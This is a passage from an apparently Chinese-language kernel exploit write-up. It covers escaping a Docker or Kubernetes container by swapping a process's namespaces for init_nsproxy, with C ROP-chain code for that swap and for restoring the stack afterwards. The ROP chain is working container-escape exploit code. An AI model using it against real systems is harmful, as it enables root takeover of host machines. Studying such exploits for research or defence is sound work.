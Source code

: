 - （7）从docker、k8s容器（[kubernetes](https://zhuanlan.zhihu.com/p/29232090)）中逃逸，参考[ The Route to Root: Container Escape Using Kernel Exploitation](https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation) 和 [利用 Linux 内核漏洞实现 Docker 逃逸](https://paper.seebug.org/1602/)。本环境没有用到容器，这一步不执行也能提权。

  如果Linux运行在容器环境中，即使提权成功，由于所在的命名空间权限受限，即使是root也会受限（如文件系统只读等）。方法1，可以将初始进程（pid=1）的`task_struct->fs`（存放着进程根目录及工作目录）复制到exp所在的进程，就能将exp进程的根目录设置到宿主机中了，但这种方法可能环境变量不对（需采用完整路径执行程序）；方法2，`task_struct->nsproxy`指向当前进程的命名空间，可以用系统初始化时的全局命名空间**`init_nsproxy`**替换exp所在进程的`nsproxy`，执行`switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)`即可。

  ```c
    // switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)
    *rop++ = kbase_addr + POP_RDI_RET;                                            // pop rdi; ret;
    *rop++ = 1; // RDI
    *rop++ = kbase_addr + FIND_TASK_BY_VPID;                                      // find_task_by_vpid
    *rop++ = kbase_addr + POP_RCX_RET;                                            // pop rcx; ret;
    *rop++ = 4; // RCX
    *rop++ = kbase_addr + CMP_RCX_4_JNE_POP_RBP_RET;                              // cmp rcx, 4; jne 0x274579; pop rbp; ret; 
    *rop++ = 0xDEADBEEF; // RBP
    *rop++ = kbase_addr + MOV_RDI_RAX_JNE_XOR_EAX_EAX_RET;                        // mov rdi, rax; jne 0x788d41; xor eax, eax; ret;
    *rop++ = kbase_addr + POP_RSI_RET;                                            // pop rsi; ret;
    *rop++ = kbase_addr + INIT_NSPROXY; // RSI                                    // init_nsproxy
    *rop++ = kbase_addr + SWITCH_TASK_NAMESPACES;                                 // switch_task_namespaces
  ```

- （8）恢复rbp/rsp，`RSI+0x2b0`处（`pipe_buffer+0x2b0`处）

  ```c
    // Load RBP from scratchpad_addr and resume execution.
    *rop++ = kbase_addr + POP_RBP_RET;                                            // pop rbp; ret;
    *rop++ = scratchpad_addr - 0xA; // RBP
    *rop++ = kbase_addr + PUSH_QWORD_PTR_RBP_A_POP_RBP_RET;                       // push qword ptr [rbp + 0xa]; pop rbp; ret;
    *rop++ = kbase_addr + MOV_RSP_RBP_POP_RBP_RET;                                // mov rsp, rbp; pop rbp; ret;
  ```

#### 3-5 提权成功
